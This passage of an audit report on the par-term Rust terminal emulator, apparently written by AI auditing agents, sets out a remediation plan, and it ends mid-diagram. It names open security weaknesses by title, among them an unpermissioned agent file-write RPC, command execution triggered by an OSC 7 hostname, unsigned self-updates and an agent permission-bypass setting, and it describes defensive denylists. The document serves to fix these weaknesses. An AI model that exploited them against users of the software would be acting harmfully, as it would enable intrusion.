*followed* (zero `blocking_read`/`blocking_write`/`blocking_lock` inside any `async fn`, `async move`, or
`tokio::spawn`); all 15 `Drop` impls are free of panics, unwraps, blocking locks, and indexing; zero
`unsafe impl Send`, zero `unsafe impl Sync`, zero `static mut` in the entire workspace; both UB findings are
confined to test helpers. The known render-cache TOCTOU is properly fixed with an explanatory comment, not
papered over.

The gap is systemic and invisible to the gate: a single **column-index-as-byte-offset / char-index type
confusion** appears in six places (QA-004–QA-008, QA-014), reachable from ordinary interactive use. These
coincide only for pure-ASCII single-width rows — and **every test input in the suite is ASCII**, which is
exactly why 1,965 green tests never saw them. With no `catch_unwind` anywhere, each is an unrecoverable
whole-app crash losing all terminal state.

**Verification gate status: GREEN**, run read-only by the auditing agent:

| Command | Result |
|---|---|
| `cargo fmt --all -- --check` | exit 0, no output |
| `cargo clippy --workspace --all-targets` | **0** warnings |
| `cargo clippy --workspace --all-targets -- -D warnings` | passes |
| `cargo test --workspace` | **1,965 passed, 0 failed, 18 ignored** across 41 binaries |

`make checkall` was not run as a unit because its `fmt` leg rewrites files. `--all-targets` subsumes the
`cargo check --workspace` typecheck leg.

**Technical debt**: 10 real TODO/FIXME/HACK markers (all tracing to the prior audit); 35 `#[allow(...)]` with
~8 lacking justification and 2 actively risky; zero `todo!()`/`unimplemented!()`/`panic!()` in production
code; 83 files over 500 lines and 5 over the 800-line production threshold, plus ARC-001's 869 never-compiled
lines.

**Test coverage: Low-to-Moderate and sharply bimodal** — a single number misrepresents it. Parsers and config
are well covered with precise value assertions (`par-term-config` 140 tests, `par-term-keybindings` 118
integration tests asserting exact escape bytes, the GLSL→WGSL transpiler 19). The areas CLAUDE.md flags as
highest-risk are at or near zero: **`par-term-input` has no tests within the crate** across all four source
files despite being the live winit-event→terminal-bytes path — it is exercised only indirectly by the root
crate's `tests/input_tests.rs`, which commit `cb9abf12` rewrote to drive `par_term::input::KeyInput`; the
designated single rendering path
(`pane_render/mod.rs` 863 lines, `text_instance_builder.rs`, `bg_instance_builder.rs`) is untested;
`src/session/capture.rs`, `src/app/window_manager/` (~4,500 lines), `src/app/tab_ops/` (~2,136 lines), and
`par-term-config/src/config/persistence.rs` (564 lines, holding the atomic-save reference implementation) have
none.

**Tooling caveat**: par-mem `find_dead_code` is unreliable on this repo (~34% precision) because cross-crate
calls in a Cargo workspace emit no CALLS edge, and `#[serde(default = "...")]` string references are not
linked. None of its output was passed through. ARC-001 was found by reading module declarations instead. This
friction is already documented in `~/Repos/PAR-MEM-FEEDBACK.md` with evidence from this very repo.

### Documentation Review

**Health: Good.** Breadth and craft are well above average — 145 markdown files, an exemplary 64-version
CHANGELOG in strict Keep-a-Changelog form, ~93% rustdoc coverage, a substantive 753-line style guide, and an
architecture/locking doc set (`MUTEX_PATTERNS.md`, `CONCURRENCY.md`) that is **accurate and current**, having
survived the 0.35.0 lock migration that CLAUDE.md did not. `docs/API.md` is admirably honest about its own
reliability and even proposes the `make doc-check` gate this audit shows is needed.

The problem is accuracy drift concentrated where a new user lands first, and the root enabler is DOC-022: no
link validation or doc-drift check exists anywhere in CI or the Makefile. That absence produced 51 broken
links on published crate front pages, 11 links that silently resolve to the wrong file, and 5 broken anchors.
Separately, CLAUDE.md is the single most drift-prone file in the repo — it is the first file every AI session
reads, and it carries at least six independently wrong claims (DOC-006, DOC-007, DOC-011, DOC-015, DOC-018,
QA-036, plus ARC-008's and ARC-012's misdirections).

**Verifiable counts are mostly right**, which is worth stating: 73 shaders = 61 background + 12 cursor matches
the filesystem exactly across three docs; "200+ configuration options" is accurate and conservative; the
13-crate dependency graph matches `Cargo.toml` layer for layer. CLAUDE.md's hard-won render and coprocess
gotchas are all true — `emit_three_phase_draw_calls` has exactly the 3 claimed callers, and the core's
`PtySession` really does own the `CoprocessManager`.

---

## Remediation Roadmap

### Immediate Actions (Before Next Release)
1. **SEC-001** — gate the ACP `fs/write_text_file` RPC arm; extend the denylist to shell rc files and
   `~/.config/par-term/`.
2. **SEC-002** — confirm before OSC-7-triggered command execution; wire the dead `ssh_auto_profile_switch`
   toggle.
3. **QA-004–QA-008** — the reachable-panic class, as one coordinated pass with a shared
   `column_to_byte_offset` helper.
4. **DOC-001** — correct the four `CONFIG_REFERENCE.md` enum value-sets that prevent startup.
5. ~~QA-001 + QA-009~~ — **already done during this audit** (`eff2b1e6`, `cb9abf12`); the Linux SIGSEGV root
   cause is Miri-proven and the board card is closed. Nothing to do.
6. **SEC-006** — verify the in-flight shader-path work also hardens the write (`mode(0o600)`, `O_NOFOLLOW`,
   `debug_assertions` gate); the path half alone does not close the security finding.

### Short-term (Next 1–2 Sprints)
1. **ARC-001** — delete the 869 lines of never-compiled `src/ssh/` code. Do this before any other SSH work.
2. **QA-002 + QA-024** — eliminate the per-frame full-grid clones.
3. **QA-003** — move shader installation off the main thread.
4. **SEC-005 / SEC-006** — self-update signature verification; secure the shader debug dump path.
5. **QA-010 + QA-023 (+ SEC-021)** — one generic atomic-save helper for sessions, profiles, arrangements.
6. **DOC-022 then DOC-002 / DOC-003 / DOC-016** — add link validation first, then fix the links it would
   catch.
7. **CLAUDE.md consolidation** — DOC-006, DOC-007, DOC-011, DOC-015, DOC-018, QA-036, ARC-008, ARC-012 in one
   change.
8. **ARC-004 → QA-011** — instance-buffer suballocation, then route screenshots through the live path.

### Long-term (Backlog / Deferred — see ENHANCEMENTS.md)
1. **ARC-002** — `SettingsUI` 215-field decomposition (ENH-006).
2. **ARC-003** — `Config` 238-field decomposition (ENH-007).
3. **ARC-009 + QA-022** — oversized-file splits and `parse_shader_controls` (ENH-009).
4. **Prevention infrastructure** — config-value round-trip tests (ENH-001), a non-ASCII/wide-char test corpus
   (ENH-002), a panic boundary that preserves session state (ENH-003).

---

## Positive Highlights

1. **The trigger `RunCommand` defense stack is exemplary** — allowlist, denylist, rate limit,
   max-concurrent cap, audit logging, and `prompt_before_run: true` by default with an *additional* explicit
   opt-in required to disable it. `par-term-config/src/automation.rs:369-398` even documents its own denylist
   as best-effort and names the real control. This is the model SEC-001 and SEC-002 should adopt.
2. **The concurrency policy is written down per-primitive and the code actually follows it.**
   `src/lib.rs:28-43` specifies when to use tokio `RwLock`, `parking_lot::Mutex`, and `std::sync::Mutex` with
   explicit deadlock warnings. Verification: exactly **3** `std::sync::Mutex` occurrences exist in `src/`, one
   being the policy comment itself; the sole real use is the documented cross-thread-handoff exception. A
   stated policy that survives a grep is rare.
3. **The publish workflow encodes the crate layering as executable order, not documentation.**
   `.github/workflows/publish-crates.yml:153-182` publishes in explicit Layer 0 → 2 → 3 order with comments
   naming each layer, and `:41` fails the build if any manifest still carries a local `path` dependency on
   `par-term-emu-core-rust`. Architecture enforced by CI rather than convention.
4. **Semantic history is genuinely hardened** — direct-spawn avoids the shell when the template has no
   metacharacters (`src/url_detection/render.rs:312-349`), URL schemes are allowlisted so an OSC 8 `file://`
   link cannot reach the OS handler (`:87-127`, with tests), and `shell_escape` correctly single-quotes the
   fallback path. Default editor mode is `$EDITOR`, not `open::that`.
5. **The CHANGELOG is a model of the form** — 64 released versions in strict order with dates, categorized
   under Keep a Changelog headings, an accurate `[Unreleased]` section, and prose explaining *root causes*
   rather than listing changes.
6. **Credential-leak prevention is real, not aspirational** — a 48-entry `SENSITIVE_OUTPUT_PATTERNS` table
   redacts private-key headers and `client_secret=` from session logs, password prompts suppress following
   input, auto-context command lines are redacted before reaching an agent, and the AI inspector's context is
   deliberately **shader**-scoped rather than scrollback-scoped.
7. **par-term never handles SSH secrets** — it delegates to the system `ssh` binary so credentials go to
   OpenSSH via the tty, and host-key verification is correctly *not* reimplemented. `ssh_extra_args` denies
   `StrictHostKeyChecking`/`ProxyCommand`/`ForwardAgent` including clustered forms.
8. **Dependency triage is accurate rather than rubber-stamped** — `deny.toml`'s quick-xml exemption carries a
   correct, verifiable justification, confirmed independently with `cargo tree -i`.
9. **Module decomposition is well-executed where it has been done** — 12 `WindowState` sub-state bundles, 14
   `Config` sub-structs, and a consistently split `src/app/` tree. The Makefile carries all six required
   standard targets plus 56 more, including `run-shot`-style agent-operability hooks.

---

## Audit Confidence

| Area | Files Reviewed | Confidence |
|------|---------------|-----------|
| Architecture | ~60 (all 14 manifests, entry points, core modules, workflows) | **High** |
| Security | ~90 (ACP/MCP/SSH/update/scripting/OSC surfaces, 8 workflows, full git history scan) | **High** — except `par-term-acp/src/agent.rs` and `src/acp_harness/` message-size limits (**Medium**, a sub-agent failed and that surface was covered by direct reads) |
| Code Quality | ~120 (largest files, all 15 `Drop` impls, all 14 PTY-write sites, test tree) | **High** for the reported findings; **dead-code analysis unavailable** — par-mem `find_dead_code` scored ~34% precision on this workspace and none of it was used |
| Documentation | ~45 markdown files read in full of 145 present, plus every cited code counterpart | **High** for the files read; **Medium** on exhaustive coverage — 145 markdown files were prioritized by user impact, not swept |

**Moving-tree caveat.** The audit read `88e5d472` while a concurrent session advanced the repo to `979ecd11`
and left 7 files dirty. The delta is fully enumerated in Mid-Audit Repository Drift and every finding whose
cited file falls inside it was re-verified against current state; two findings were retired as already fixed
and three had their scope corrected. Findings outside the 20 affected files were not re-read, so their line
numbers are as of `88e5d472` — accurate at the time, and unaffected by these four commits, but `/fix-audit`
should still re-read before editing (which its own instructions require regardless).

Three findings carry explicit confidence qualifiers and are marked inline: **QA-014**'s
`src/app/window_state/shader_ops.rs:219-221` reference was not independently re-verified; **SEC-005**'s
open-redirect step is unproven; and **QA-014**'s fourth site. **QA-001**'s SIGSEGV link is no longer a
hypothesis — `eff2b1e6` confirmed it with Miri and fixed it — while **SEC-007** is now scoped as a
correctness/flakiness defect rather than an incident lead.

Four orchestrator corrections to agent claims are recorded in the Executive Summary. Nine `path:line`
references were independently re-verified by the orchestrator and are marked *(orchestrator-verified)*.

---

## Remediation Plan

> Generated by the audit and consumed directly by `/fix-audit`. Phase assignments and file conflicts are
> pre-computed so the fix orchestrator proceeds without re-analyzing the codebase. Per-issue execution steps
> are in `AUDIT-REMEDIATION-PLAN.md`.

### Deliberately Excluded From This Cycle

Four findings are **not** in any phase table below. They are large structural refactors that move code
across files and would invalidate the line anchors every other fix in this audit depends on. Executing them
alongside 109 other changes maximizes conflict risk for no correctness gain. Each is filed in
`ENHANCEMENTS.md` with a full implementation plan and a board card.

| ID | Why excluded | Tracked as |
|----|--------------|-----------|
| ARC-002 | Rewrites the field access path in ~25 `*_tab/` modules; collides with QA-014 | ENH-006 |
| ARC-003 | Moves 238 field declarations; touches every `config.<field>` site across 14 crates | ENH-007 |
| ARC-009 | Splitting 5 files invalidates line anchors repo-wide | ENH-009 |
| QA-022 | Same file and same change as ARC-009's `shader_controls.rs` split | ENH-009 |

**QA-008 must still be fixed this cycle** — it is a Critical crash in `par-term-config`, independent of
whether ARC-003 ever happens.

### Phase Assignments

#### Phase 1 — Critical Security (Sequential, Blocking)

| ID | Title | File(s) | Severity |
|----|-------|---------|----------|
| SEC-001 | ACP `fs/write_text_file` has no permission gate | `par-term-acp/src/message_handler.rs`, `fs_tools.rs`, `fs_ops.rs` | Critical |
| SEC-002 | OSC 7 hostname triggers unconfirmed command execution; dead toggle | `src/app/tab_ops/profile_auto_switch.rs`, `par-term-config/src/config/config_struct/ssh_config.rs`, `par-term-settings-ui/src/ssh_tab.rs` | Critical |
| SEC-007 | `env::set_var` data race in tests *(promoted — conflict file)* | `par-term-mcp/src/lib.rs`, `tests/config/config_env_tests.rs` | Medium |
| SEC-010 | OSC 1337 download filename not reduced to basename *(promoted — conflict file)* | `src/app/file_transfers/mod.rs` | Medium |

*SEC-007 and SEC-010 are promoted per the conflict rule: both modify files that Phase 3c also targets
(`par-term-mcp/src/lib.rs` ← QA-034; `src/app/file_transfers/mod.rs` ← QA-026). SEC-007 also adds a
`serial_test` dev-dependency, so it must precede any other lockfile-touching work.*

#### Phase 2 — Blocking Structural Changes (Sequential, Blocking)

| ID | Title | File(s) | Severity | Blocks |
|----|-------|---------|----------|--------|
| ARC-001 | Delete 869 lines of never-compiled `src/ssh/` code | `src/ssh/{config_parser,discovery,history,known_hosts,types}.rs` | High | all SSH work (SEC-003) |
| ARC-004 | Per-pane GPU submit → suballocate instance buffers | `par-term-render/src/cell_renderer/pane_render/mod.rs`, `cell_renderer/mod.rs`, `renderer/rendering.rs` | High | QA-011, QA-015, QA-021 |
| QA-011 | Route screenshots through the live pane path | `par-term-render/src/renderer/rendering.rs`, `cell_renderer/render.rs`, `cell_renderer/instance_buffers.rs` | High | ARC-013 |

*ARC-001 runs first: it removes a decoy that would otherwise silently absorb SEC-003's SSH fix. ARC-004 and
QA-011 are placed here rather than in parallel because they both restructure `par-term-render`'s draw path and
would otherwise conflict with each other and with QA-015/QA-021 across phase boundaries.*

#### Phase 3 — Parallel Execution

**3a — Security (remaining)**

| ID | Title | File(s) | Severity |
|----|-------|---------|----------|
| SEC-003 | SSH Quick Connect builds shell string from mDNS hostname | `src/app/render_pipeline/post_render.rs`, `par-term-ssh/src/types.rs` | High |
| SEC-004 | Remote YAML profile source supplies command text | `src/profile/dynamic/fetch.rs` | High |
| SEC-005 | Self-update lacks signature verification | `par-term-update/src/{binary_ops,http,install_methods}.rs` | High |
| SEC-006 | ⚠️ **VERIFY ONLY** — harden the shader dump write; path half is already in flight | `par-term-render/src/custom_shader_renderer/mod.rs:55-61`, `:43-48` | High |
| SEC-008 | `SECURITY.md` drifted in three places | `SECURITY.md` | Medium |
| SEC-009 | OSC title unescaped into HTML session log | `src/session_logger/format_writers.rs` | Medium |
| SEC-011 | Unpinned `dtolnay/rust-toolchain@master` in publish job | `.github/workflows/publish-crates.yml` | Medium |
| SEC-012 | Unquoted dispatch input in shell command | `.github/workflows/ci-linux.yml`, `ci-windows.yml` | Medium |
| SEC-013 | Scripting `WriteText` bypasses denylist | `par-term-scripting/src/protocol.rs`, `par-term-config/src/scripting.rs` | Medium |
| SEC-014 | `auto_approve` sets agent `bypassPermissions` | `src/app/window_state/impl_agent.rs` | Medium |
| SEC-015 | No secret-scanning gate | `.pre-commit-config.yaml` (new), `Makefile` | Medium |
| SEC-016 | Debug log chmod after open | `src/debug.rs` | Low |
| SEC-017 | `FontData` exposes `'static` self-reference | `par-term-fonts/src/font_manager/types.rs` | Low |
| SEC-018 | Two `SAFETY` comments state wrong invariant | `par-term-fonts/src/font_manager/loader.rs`, `src/font_metrics.rs` | Low |
| SEC-019 | OSC 52 clipboard writes default-on (document) | `par-term-config/src/defaults/terminal.rs`, `SECURITY.md` | Low |
| SEC-020 | Config import: any scheme, no size cap | `par-term-settings-ui/src/advanced_tab/import_export.rs` | Low |
| SEC-022 | Shader create dialog accepts `..` | `par-term-settings-ui/src/shader_dialogs.rs` | Low |
| SEC-023 | `action-discord` pinned to movable tag | `.github/workflows/publish-crates.yml`, `release.yml` | Low |
| SEC-024 | Tap token persisted into `.git/config` | `.github/workflows/publish-homebrew-cask-core.yml` | Low |
| SEC-025 | Release workflow ignores test failures | `.github/workflows/release.yml` | Low |
| SEC-026 | `Makefile:472` points at world-writable `/tmp` script | `Makefile` | Low |

*SEC-021 is intentionally absent — it is satisfied by QA-023. SEC-027 is informational; no action.*

**3b — Architecture (remaining)**

| ID | Title | File(s) | Severity |
|----|-------|---------|----------|
| ARC-005 | `WindowState` docstring counts/IDs wrong, dangling ref | `src/app/window_state/mod.rs` | High |
| ARC-006 | Duplicated SSRF/host-allowlist validation | `src/http.rs`, `par-term-update/src/http.rs` | Medium |
| ARC-007 | Dead `wgpu` feature and two unreachable optional deps | `par-term-settings-ui/Cargo.toml` | Medium |
| ARC-008 | `src/input.rs` shim advertised as an implementation site | `CLAUDE.md` | Medium |
| ARC-010 | Redundant re-export shim modules | `src/shell_detection.rs`, `par-term-settings-ui/src/shell_detection.rs`, `src/status_bar/config.rs`, `src/manifest.rs`, `src/lib.rs` | Medium |
| ARC-011 | `url` dep not centralised | `Cargo.toml`, `par-term-update/Cargo.toml` | Low |
| ARC-012 | Layer 2 dependency prose understates emu-core edges | `CLAUDE.md` | Low |
| ARC-013 | Single-path invariant enforced only by a (wrong) comment | `par-term-render/src/cell_renderer/instance_buffers.rs` | Low |

**3c — Code Quality (all)**

| ID | Title | File(s) | Severity |
|----|-------|---------|----------|
| QA-004 | Copy-mode search slices `String` by column | `src/app/copy_mode/search.rs` | Critical |
| QA-005 | `move_word_backward` unbounded `chars[col]` | `src/copy_mode/motion.rs` | Critical |
| QA-006 | Base64 decode table indexed by raw `char` | `src/paste_transform/encoding.rs` | Critical |
| QA-007 | Hex decode byte-slices on `step_by(2)` | `src/paste_transform/encoding.rs` | Critical |
| QA-008 | Shader hex-color byte-slice panic | `par-term-config/src/types/shader.rs` | Critical |
| QA-002 | Full-grid deep clone every frame | `src/app/render_pipeline/gpu_submit.rs` | Critical |
| QA-003 | Sync network download on the winit main thread | `src/app/window_state/action_handlers/integrations.rs` | Critical |
| QA-010 | Non-atomic user-data writes | `src/session/storage.rs`, `src/profile/storage.rs`, `src/arrangements/storage.rs` | High |
| QA-012 | ACP drain gated behind rendering | `src/app/window_state/impl_agent.rs`, `agent_state.rs` | High |
| QA-013 | 14 silent `let _ = term.write(..)` sites | 11 files under `src/app/` | High |
| QA-014 | Byte-slice display truncation, 4 sites | `src/search/mod.rs`, `src/app/render_pipeline/egui_overlays.rs`, `par-term-settings-ui/src/profiles_tab/dynamic_sources.rs`, `src/app/window_state/shader_ops.rs` | High |
| QA-015 | `[0]` index on empty wgpu capability vectors | `par-term-render/src/cell_renderer/mod.rs` | High |
| QA-016 | Swallowed `current_exe()` misdetects install type | `par-term-update/src/install_methods.rs` | High |
| QA-017 | Arbitrary `HashMap` window instead of focused, 6 sites | `src/app/window_manager/cli_timer.rs`, `settings_actions.rs`, `config_propagation.rs`, `src/app/handler/app_handler_impl.rs` | Medium |
| QA-018 | `thread::sleep(50ms)` in `Pane::drop` | `src/pane/types/pane.rs` | Medium |
| QA-019 | Font-size change enumerates system fonts twice via `block_on` | `src/app/window_state/renderer_ops.rs` | Medium |
| QA-020 | `timeout_secs` parsed then discarded | `src/app/input_events/snippet_actions/workflow.rs` | Medium |
| QA-021 | Five stale `ARC-009` line-count comments | `par-term-render/src/renderer/mod.rs`, `renderer/rendering.rs`, `graphics_renderer.rs`, `cell_renderer/mod.rs`, `cell_renderer/background.rs` | Medium |
| QA-023 | Persistence layer triplicated | `src/{session,profile,arrangements}/storage.rs`, `par-term-config/src/config/persistence.rs` | Medium |
| QA-024 | `DebugState.cache_hit` is load-bearing render control | `src/app/window_state/debug_state.rs`, `src/app/render_pipeline/{gather_phases,gather_data,renderer_ops}.rs` | Medium |
| QA-025 | `pane_manager: Option` vs always-`Some` invariant | `src/tab/mod.rs`, `src/tab/pane_accessors.rs` | Medium |
| QA-026 | Transfer notification outside the lock gate | `src/app/file_transfers/mod.rs` | Medium |
| QA-027 | `#[allow(unreachable_patterns)]` hides a future variant | `par-term-terminal/src/terminal/rendering.rs` | Medium |
| QA-028 | Unbounded channels, 5 sites | `par-term-acp/src/jsonrpc.rs`, `src/app/window_state/impl_agent.rs`, `src/profile/dynamic/manager.rs`, `src/app/window_manager/mod.rs`, `src/platform/notify.rs` | Medium |
| QA-029 | `logs_dir()` hides mkdir failure | `par-term-config/src/config/persistence.rs` | Medium |
| QA-030 | Session-logger writes discarded | `src/session_logger/core.rs` | Medium |
| QA-031 | Startup shader-load failure only logged | `par-term-render/src/renderer/shaders/background.rs`, `cursor.rs` | Medium |
| QA-032 | `command_history` clears `dirty` before discarded spawn | `src/command_history.rs` | Medium |
| QA-033 | Test-quality defects, 4 classes | `tests/snippets_tests.rs`, `tests/profiles/profile_modal_tests.rs`, `par-term-keybindings/tests/keybinding_integration_tests.rs` | Low |
| QA-034 | 8 `#[allow(...)]` without justification | `src/app/window_state/notifications.rs`, `par-term-render/src/renderer/graphics.rs`, `src/app/render_pipeline/gpu_submit.rs`, `renderer_ops.rs`, `par-term-mcp/src/ipc.rs`, `src/url_detection/mod.rs`, `par-term-config/src/lib.rs` | Low |
| QA-035 | `#[ignore]` reason style inconsistent, 10 sites | `tests/terminal_tests.rs`, `tests/tabs/tab_stability_tests.rs` | Low |
| QA-036 | CLAUDE.md's `log::` claim is false | `CLAUDE.md` | Low |
| QA-037 | Unbounded `git` subprocess on main thread | `src/app/input_events/snippet_actions/workflow.rs`, `par-term-config/src/snippets.rs` | Low |
| QA-038 | Unbounded `tmux list-sessions` on main thread | `src/tmux_session_picker_ui.rs` | Low |
| QA-039 | Silent theme fallback | `par-term-config/src/config/theme_methods.rs` | Low |
| QA-040 | Latent quote-injection in 5 tmux builders | `par-term-tmux/src/commands.rs` | Low |

**3d — Documentation (all)**

| ID | Title | File(s) | Severity |
|----|-------|---------|----------|
| DOC-001 | Four enum value-sets prevent startup | `docs/CONFIG_REFERENCE.md` | Critical |
| DOC-022 | No link validation in CI *(run first in 3d)* | `.github/workflows/ci.yml` | Medium |
| DOC-002 | 51 broken links across 13 crate READMEs + `SECURITY.md` | `SECURITY.md`, all `par-term-*/README.md`, `examples/README.md`, `docs/plans/README.md` | High |
| DOC-003 | 11 `../README.md` misroutes | 10 files under `docs/` | High |
| DOC-004 | Menu bar documented as working on Linux | `docs/architecture/ARCHITECTURE.md`, `docs/features/INTEGRATIONS.md`, `docs/guides/TROUBLESHOOTING.md`, `docs/features/ARRANGEMENTS.md`, `src/menu/linux.rs` | High |
| DOC-005 | XDG env-var section is fictional | `docs/guides/ENVIRONMENT_VARIABLES.md` | High |
| DOC-006 | Debug log path wrong on macOS, 11 sites | `CLAUDE.md`, `CONTRIBUTING.md`, `docs/LOGGING.md`, `docs/guides/ENVIRONMENT_VARIABLES.md`, `Makefile` | High |
| DOC-007 | CLAUDE.md concurrency gotcha names nonexistent API | `CLAUDE.md` | High |
| DOC-008 | Four keyboard shortcuts wrong or unfirable | `docs/guides/KEYBOARD_SHORTCUTS.md` | High |
| DOC-009 | API.md documents 11 nonexistent enum variant sets | `docs/API.md` | High |
| DOC-010 | `check_command_allowlist` inverted return contract | `docs/API.md` | High |
| DOC-011 | CLAUDE.md version two releases stale | `CLAUDE.md` | High |
| DOC-012 | Two config values silently ignored | `docs/CONFIG_REFERENCE.md` | Medium |
| DOC-013 | Orphaned table rows render as literal text | `docs/CONFIG_REFERENCE.md` | Medium |
| DOC-014 | CONTRIBUTING contradicts code on crate count/deps | `CONTRIBUTING.md` | Medium |
| DOC-015 | `make checkall` documented as formatting | `CLAUDE.md` | Medium |
| DOC-016 | Five broken internal anchors | `docs/features/SHADERS.md`, `docs/architecture/ARCHITECTURE.md` | Medium |
| DOC-017 | README "What's New" anchor two releases back | `README.md` | Medium |
| DOC-018 | File map overstates `tab_bar_ui/`; `input_events.rs` does not exist | `CLAUDE.md` | Medium |
| DOC-019 | README undercounts paste transforms (28 vs 29) | `README.md` | Medium |
| DOC-020 | Three doc comments state wrong defaults | `par-term-config/src/config/config_struct/{mod,window_config}.rs` | Medium |
| DOC-021 | API.md calls YAML parsing TOML | `docs/API.md` | Medium |
| DOC-023 | Migration Guide unreachable from README | `README.md`, `CLAUDE.md` | Medium |
| DOC-024 | Undocumented env vars; `TERM`/`COLORTERM` misclassified | `docs/guides/ENVIRONMENT_VARIABLES.md` | Medium |
| DOC-025 | 83 rustdoc warnings; no `missing_docs` lint | 13 `par-term-*/src/lib.rs`, `src/tab_bar_ui/mod.rs`, `par-term-input/src/lib.rs`, `par-term-config/src/config/keybindings_methods.rs` | Low |
| DOC-026 | `# Errors`/`# Panics` sections absent | workspace-wide public API | Low |
| DOC-027 | CONTRIBUTING link *text* stale | `CONTRIBUTING.md` | Low |
| DOC-028 | MATRIX.md stale, unstamped, unindexed | `MATRIX.md` | Low |
| DOC-029 | Line numbers in durable docs | `docs/features/MOUSE_FEATURES.md`, `docs/features/SEMANTIC_HISTORY.md` | Low |
| DOC-030 | README accumulates 9 release-note sections | `README.md` | Low |
| DOC-031 | MIGRATION.md ToC ordering inconsistent | `docs/guides/MIGRATION.md` | Low |
| DOC-032 | API.md minor drift | `docs/API.md` | Low |

### File Conflict Map

Files touched by issues in more than one domain. **Fix agents must re-read current file state before
editing** — a prior agent may already have changed these.

| File | Domains | Issues | Risk |
|------|---------|--------|------|
| `CLAUDE.md` | Architecture + Documentation + Code Quality | ARC-008, ARC-012, DOC-006, DOC-007, DOC-011, DOC-015, DOC-018, DOC-023, QA-036, SEC-006 | 🔴 **Batch into ONE change, single owner (3d).** Ten issues, four domains. |
| `par-term-render/src/cell_renderer/mod.rs` | Architecture + Code Quality | ARC-004, QA-015, QA-021 | 🔴 ARC-004 is in Phase 2; QA-015/QA-021 must re-read after it |
| `par-term-render/src/renderer/rendering.rs` | Architecture + Code Quality | ARC-004, QA-011, QA-021 | 🔴 Two Phase-2 issues plus one 3c issue |
| `par-term-render/src/cell_renderer/pane_render/mod.rs` | Architecture | ARC-004, ARC-009 *(deferred)* | 🟠 ARC-009 excluded, so no live conflict |
| `Makefile` | Security + Documentation | SEC-026, DOC-006, DOC-015 | ⚠️ Read before edit |
| `src/app/file_transfers/mod.rs` | Security + Code Quality | SEC-010 *(Phase 1)*, QA-026 | ⚠️ SEC-010 promoted to Phase 1 to resolve this |
| `par-term-mcp/src/lib.rs` | Security + Code Quality | SEC-007 *(Phase 1)*, QA-034 | ⚠️ SEC-007 promoted to Phase 1 to resolve this |
| `par-term-config/src/config/persistence.rs` | Code Quality + Documentation | QA-023, QA-029, DOC-005 | ⚠️ QA-023 → QA-029 order is mandatory |
| `src/{session,profile,arrangements}/storage.rs` | Security + Code Quality | SEC-021, QA-010, QA-023 | ⚠️ All three collapse into QA-023 |
| `par-term-config/src/types/shader.rs` | Code Quality | QA-008 | 🟢 Single owner |
| `par-term-config/src/config/config_struct/mod.rs` | Architecture + Documentation | ARC-003 *(deferred)*, DOC-020 | 🟢 ARC-003 excluded, so DOC-020 is unblocked |
| `par-term-settings-ui/src/profiles_tab/dynamic_sources.rs` | Architecture + Code Quality | ARC-002 *(deferred)*, QA-014 | 🟢 ARC-002 excluded, so QA-014 is unblocked |
| `.github/workflows/publish-crates.yml` | Security | SEC-011, SEC-023 | 🟢 Same domain, same agent |
| `.github/workflows/release.yml` | Security | SEC-025, SEC-023 | 🟢 Same domain, same agent |
| `docs/CONFIG_REFERENCE.md` | Documentation | DOC-001, DOC-012, DOC-013 | 🟢 Same domain, same agent |
| `docs/API.md` | Documentation | DOC-009, DOC-010, DOC-021, DOC-032 | 🟢 Same domain, same agent |
| `src/app/window_state/impl_agent.rs` | Security + Code Quality | SEC-014, QA-012, QA-028 | ⚠️ Read before edit; QA-012 → QA-028 order |
| `docs/features/CUSTOM_SHADERS.md` | Security + Documentation | SEC-006, DOC-003 | ⚠️ SEC-006 owns the `/tmp` lines; DOC-003 owns `:1109` |
| `src/debug.rs` | Security | SEC-016 | 🟢 Single owner — **do not "fix" the path here**, it is already correct (see DOC-006) |

### Blocking Relationships

- **ARC-001 → SEC-003**: ARC-001 deletes `src/ssh/*.rs`. SEC-003's fix belongs in `par-term-ssh/src/` only.
  Grep-based tooling will match the dead copies; patching them compiles clean and changes nothing.
- **ARC-004 → QA-011**: both restructure `par-term-render`'s draw path; ARC-004 changes instance-buffer
  addressing that QA-011's offscreen route must build on.
- **ARC-004 → QA-015, QA-021**: both touch `cell_renderer/mod.rs`, whose line numbers ARC-004 shifts.
- **QA-012 → QA-028**: draining the ACP receiver from `about_to_wait()` is *also* the mitigation for that
  channel's unbounded growth. Scope QA-028 after QA-012 lands to avoid a redundant bounded-channel change.
- **QA-023 → QA-029**: QA-029 changes `logs_dir()`'s signature in the same file QA-023 extracts the
  atomic-save helper from. Extract first, then change the signature.
- **QA-023 ⊃ QA-010, SEC-021**: QA-023's generic `save_yaml_atomic<T>` **is** QA-010's fix, and satisfies
  SEC-021 if the helper sets mode 0600. Do not implement them separately — that means writing the same logic
  three times and deleting it.
- ~~**QA-001 ⊃ QA-009**~~: both **resolved mid-audit** by `eff2b1e6`/`cb9abf12`. No work remains.
- **QA-002 + QA-024 together**: both concern redundant full-grid clones driven by the same `cache_hit` field;
  QA-024's scratch-buffer rework is the natural home for QA-002's `clone_from` fix.
- **QA-004–QA-008, QA-014 as one coordinated pass**: shared root cause and fix vocabulary
  (`char_indices()`, `.chars().count()`, `is_ascii()`, the existing `truncate_chars`). Introduce a shared
  `column_to_byte_offset(&str, usize)` helper. Piecemeal fixes risk re-introducing the pattern.
- **SEC-006 → SEC-008**: SEC-008 corrects `SECURITY.md:128`, which describes the `/tmp` dump SEC-006 changes.
- **SEC-013 → SEC-008**: SEC-008 corrects `SECURITY.md:132`, which describes the scripting model SEC-013
  changes.
- **SEC-006 is blocked on a concurrent session, not on another finding**: the path half, the `:608` test
  assertion, and `CLAUDE.md:218` are already changed in the dirty working tree. 3d must not touch
  `docs/features/CUSTOM_SHADERS.md:1099-1100` or `CLAUDE.md:218` — that session owns them. Only the write
  hardening and the stale docstring at `mod.rs:43-48` remain.
- **SEC-007 → any lockfile-touching work**: adds a `serial_test` dev-dependency to `par-term-mcp/Cargo.toml`.
- **DOC-022 → DOC-002, DOC-003, DOC-016**: add link validation first, or the same drift silently
  reaccumulates. DOC-022 is the only finding that prevents recurrence rather than fixing a symptom.
- **SEC-003 preserves `is_safe_ssh_host`**: `par-term-config/src/profile_types/profile.rs:285-287` is
  currently unreferenced and looks removable. No dead-code pass may delete it before SEC-003 consumes it.
- **QA-036 constrains every domain**: do **not** convert `log::` call sites to `debug_*!` macros. The ~1,000
  existing sites are correct, and sub-crates cannot use the root crate's macros at all.

### Dependency Diagram

```mermaid
graph TD
    P1["Phase 1: Critical Security<br/>SEC-001, SEC-002, SEC-007, SEC-010"]
    P2["Phase 2: Blocking Structural<br/>ARC-001 → ARC-004 → QA-011"]
